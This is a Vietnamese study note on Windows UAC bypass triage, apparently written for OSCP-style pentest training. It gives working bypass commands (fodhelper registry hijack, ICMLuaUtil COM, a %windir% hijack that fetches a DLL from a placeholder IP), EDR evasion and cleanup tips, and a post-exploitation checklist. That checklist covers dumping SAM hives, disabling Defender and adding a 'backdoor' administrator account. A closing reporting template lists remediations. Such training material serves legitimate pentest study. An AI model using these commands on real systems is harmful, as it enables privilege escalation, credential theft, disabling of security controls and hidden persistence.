

> **Prerequisites**: [[03-registry-hijack-fodhelper|03]]–[[14-uacme-framework|14]] — Toàn bộ series
> **Objectives**:
> - Xây dựng decision workflow: từ shell Medium Integrity → chọn technique phù hợp
> - Biết cách enumerate environment nhanh để chọn technique
> - Nắm post-exploitation checklist sau khi đạt High Integrity
> - Tổng hợp EDR evasion tips cho từng technique family

---

## Overview & Mindset

### Tư duy khi đứng trước UAC

Sau khi có shell với user trong Administrators group nhưng ở Medium Integrity, attacker đứng trước 5 câu hỏi cần trả lời nhanh:

1. **UAC ở mức nào?** → xác định technique family nào áp dụng được
2. **Windows version?** → một số techniques chỉ work trên specific builds
3. **EDR/AV đang chạy?** → lựa chọn variant ít IOC nhất
4. **Interactive session?** → một số techniques cần interactive desktop
5. **Thời gian cho phép?** → nhanh (registry hijack) vs chắc chắn (env var)

Không có technique "tốt nhất" tuyệt đối — chỉ có technique phù hợp nhất với **từng environment cụ thể**.

---

## Enumeration Checklist

Chạy toàn bộ enum này trước khi chọn technique. Mỗi lệnh mất < 2 giây.

```powershell
# === UAC BYPASS ENUM CHECKLIST ===

# 1. User trong Admins?
whoami /groups | findstr "S-1-5-32-544"

# 2. Current integrity level
whoami /groups | findstr "Mandatory Label"

# 3. UAC level
(Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System").ConsentPromptBehaviorAdmin

# 4. EnableLUA (nếu = 0 → không cần bypass)
(Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System").EnableLUA

# 5. Windows version
(Get-WmiObject Win32_OperatingSystem).Caption
[System.Environment]::OSVersion.Version

# 6. Key binaries tồn tại?
@("fodhelper","computerdefaults","eventvwr","sdclt","slui","cmstp") | ForEach-Object {
    $exists = Test-Path "C:\Windows\System32\$_.exe"
    Write-Output "$_ : $exists"
}

# 7. WindowsApps trong %PATH%?
$env:PATH -split ";" | Where-Object { $_ -match "WindowsApps" }

# 8. SilentCleanup task available?
Get-ScheduledTask "SilentCleanup" -ErrorAction SilentlyContinue | Select-Object TaskName, State

# 9. WinSAT/CDSSync task
Get-ScheduledTask | Where-Object { $_.TaskName -match "WinSAT|CDSSync" } | Select-Object TaskName, State

# 10. EDR/AV processes
Get-Process | Where-Object {
    $_.Name -match "MsMpEng|CarbonBlack|SentinelAgent|CrowdStrike|Sysmon|elastic"
} | Select-Object Name, Id
```

---

## Decision Framework



---

## Tool Stack

| Phase | Tool | Lesson |
|-------|------|--------|
| Enumeration | PowerShell built-in, whoami, reg query | — |
| Registry hijack | cmd.exe, PowerShell | L03–L06 |
| DLL creation | msfvenom, mingw32-gcc, Add-Type | L07–L09 |
| IFileOperation | Shell.Application COM | L08 |
| COM bypass | PowerShell Type::GetTypeFromCLSID | L10 |
| CMSTP bypass | cmd.exe + INF file | L10 |
| DLL monitoring | WMI ManagementEventWatcher | L12 |
| Env var | PowerShell SetEnvironmentVariable | L13 |
| Framework testing | UACME akagi64.exe | L14 |
| Evasion | CurVer redirect, registry cleanup | L11 |

---

## Common Findings & Patterns

### Pattern 1 — Windows 10/11 Default Setup (UAC level 5)

Hầu hết machines trong OSCP/CPTS labs: UAC mặc định, Defender enabled nhưng không tuned.

**Best choice**: fodhelper CMD variant (Lesson 03) — nhanh, reliable, low effort.

```cmd
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "cmd.exe" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v "DelegateExecute" /t REG_SZ /d "" /f
start fodhelper.exe
reg delete "HKCU\Software\Classes\ms-settings" /f
```

### Pattern 2 — EDR với registry monitoring

Defender/EDR đã có rule cho fodhelper `ms-settings` key write.

**Best choice**: ICMLuaUtil (Lesson 10) — không write registry, dùng COM.

```powershell
$t = [Type]::GetTypeFromCLSID([Guid]"3E5FC7F9-9A51-4367-9063-A120244FBEC7")
$o = [Activator]::CreateInstance($t)
$o.ShellExec("cmd.exe", "", "C:\Windows\System32", 0, 1)
```

### Pattern 3 — Hardened environment, UAC Always Notify

**Best choice**: %windir% env var + WinSAT task (Lesson 13).

```powershell
$f = "$env:TEMP\w$(Get-Random)"; md "$f\System32" | Out-Null
IWR "http://IP/npmproxy.dll" -OutFile "$f\System32\npmproxy.dll"
[System.Environment]::SetEnvironmentVariable("windir", $f, "User")
Start-ScheduledTask -TaskPath "\Microsoft\Windows\Maintenance\" -TaskName "WinSAT"
Start-Sleep 5
[System.Environment]::SetEnvironmentVariable("windir", $null, "User")
Remove-Item -Recurse -Force $f
```

### Pattern 4 — Post-exploitation chain sau UAC bypass

Sau khi đạt High Integrity, đây là checklist thực chiến:

```powershell
# 1. Verify
whoami /groups | findstr "High Mandatory"
whoami /priv

# 2. Dump SAM (local hash)
reg save HKLM\SAM C:\Users\Public\SAM
reg save HKLM\SYSTEM C:\Users\Public\SYSTEM
# Exfil và crack offline với impacket-secretsdump

# 3. Escalate to SYSTEM (nếu cần)
# Option A: PsExec
PsExec64.exe -s -i cmd.exe

# Option B: Token impersonation (nếu đã có meterpreter)
# getsystem

# 4. Disable Defender
Set-MpPreference -DisableRealtimeMonitoring $true

# 5. Add persistence
net user backdoor P@ssw0rd123! /add
net localgroup administrators backdoor /add
```

---

## EDR Evasion Summary theo Technique Family

### Registry Hijack Family (L03–L06)

| Kỹ thuật | IOC chính | Evasion |
|---------|----------|---------|
| fodhelper standard | `HKCU\...\ms-settings\Shell\Open\command` write | CurVer redirect (L11) |
| eventvwr standard | `HKCU\...\mscfile\shell\open\command` write | Thêm sleep, immediate cleanup |
| sdclt | `HKCU\...\Folder\shell\open\command` write | Dùng IsolatedCommand thay Default |
| slui | `HKCU\...\exefile\shell\open\command` write | changepk.exe swap |

**General tips**: Cleanup registry ngay sau khi payload chạy (`Start-Sleep 2; Remove-Item`). Dùng `-WindowStyle Hidden` cho trigger binary.

### DLL Hijack Family (L07–L09)

| Kỹ thuật | IOC chính | Evasion |
|---------|----------|---------|
| SystemProperties | DLL drop vào WindowsApps | Custom compile DLL (không dùng msfvenom default) |
| IFileOperation | dllhost.exe CLSID 3AD05575 spawn | Khó avoid — minimize disk time |
| Mock Dir | Directory create với trailing space | Thực ra ít dùng trong real engagement |

**General tips**: Compile DLL từ C custom thay msfvenom raw payload. Xóa DLL sau khi callback nhận.

### COM Family (L10)

| Kỹ thuật | IOC chính | Evasion |
|---------|----------|---------|
| ICMLuaUtil | dllhost.exe CLSID 3E5FC7F9 | Khó avoid; payload delivery in-memory |
| CMSTP INF | cmstp.exe + INF file | Delete INF ngay sau trigger |

**General tips**: Dùng `-WindowStyle Hidden` cho cmstp.exe. Xóa INF ngay.

### Scheduled Task Family (L12–L13)

| Kỹ thuật | IOC chính | Evasion |
|---------|----------|---------|
| SilentCleanup | DLL trong %TEMP% + DismHost spawn | Custom DLL, xóa ngay sau callback |
| %windir% hijack | HKCU\Environment\windir write | **Cleanup ngay** — để lâu gây instability |

---

## Reporting Notes

Khi document trong pentest report:

```text
Finding: UAC Bypass via [Technique Name]
Severity: High (enables privilege escalation from Medium to High Integrity)
MITRE ATT&CK: T1548.002 — Abuse Elevation Control Mechanism: Bypass User Account Control

Evidence:
- Screenshot của whoami /groups trước (Medium) và sau (High Integrity)
- Command sequence thực hiện
- Registry key / file artifacts

Impact:
- Attacker có thể thực hiện High Integrity operations: dump credentials,
  disable security controls, install persistence mechanisms

Remediation:
- Tăng UAC lên Always Notify (ConsentPromptBehaviorAdmin = 2)
- Deploy Sysmon với EventID 13 monitoring cho HKCU\Software\Classes\
- Xem xét loại bỏ local admin rights cho non-administrative users
```

---

## Daily Drill

**Thời gian**: 20 phút/ngày — scenario-based practice.

**Drill 1 — Enumeration speed**
Mục tiêu: chạy toàn bộ enum checklist trong 2 phút không nhìn notes.

Luyện cho đến khi: đọc 10 câu hỏi enum → gõ lệnh tương ứng ngay lập tức.

**Drill 2 — Decision tree**
Mục tiêu: đọc scenario → chọn technique trong 15 giây.

Scenario A: Win10, UAC level 5, no EDR → **fodhelper CMD**
Scenario B: Win10, UAC Always Notify, có Sysmon → **%windir% env var**
Scenario C: Win11, UAC level 5, Defender tuned → **ICMLuaUtil COM**
Scenario D: Win10, UAC level 5, fodhelper blocked → **eventvwr hoặc ICMLuaUtil**

Luyện cho đến khi: đọc scenario → technique trong 10 giây.

**Drill 3 — OSCP exam simulation**
Mục tiêu: từ medium integrity shell → high integrity shell trong 5 phút tổng.

1. Enum (30 giây)
2. Chọn technique (10 giây)
3. Thực hiện (2 phút)
4. Verify + cleanup (1 phút)
5. Post-exploitation đầu tiên: dump SAM (1 phút)

Luyện cho đến khi: toàn bộ flow dưới 5 phút không cần mở notes.

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **Arkham** (Retired) | Practice full decision flow — multiple techniques viable |
| HTB | **VulnEscape** (Retired) | UAC bypass sau kiosk escape — real scenario |
| HTB | **Endgame XEN** (Retired) | UAC trong complex chain |
| Local VM | Windows 10 + Defender | Test decision framework với real AV |
| OSCP Labs | Windows targets | Apply methodology trong exam simulation |

---

## Field Manual Entry

> [!abstract] UAC Bypass Triage — Quick Decision Guide
> **Step 1 — Enum** (30 giây):
> ```powershell
> whoami /groups | findstr "S-1-5-32-544"  # in Admins?
> (Get-ItemProperty "HKLM:\...\Policies\System").ConsentPromptBehaviorAdmin  # UAC level
> ```
> **Step 2 — Choose**:
> - Level 0/1/5, no EDR → `fodhelper CMD` (L03) — fastest
> - Level 0/1/5, EDR active → `ICMLuaUtil COM` (L10) — no registry write
> - Level 2 Always Notify → `%windir% + WinSAT` (L13) — only reliable option
> - Level 0/1/5, fodhelper blocked → `eventvwr CMD` (L04) or `ICMLuaUtil` (L10)
>
> **Step 3 — Verify**: `whoami /groups | findstr "High Mandatory"`
>
> **Step 4 — Cleanup**: Delete registry key / DLL / env var ngay
>
> **Step 5 — Post-ex**: dump SAM → escalate to SYSTEM → disable AV
> **Ref**: [[15-uac-triage-methodology|15. UAC Bypass Triage Methodology + EDR Evasion]]
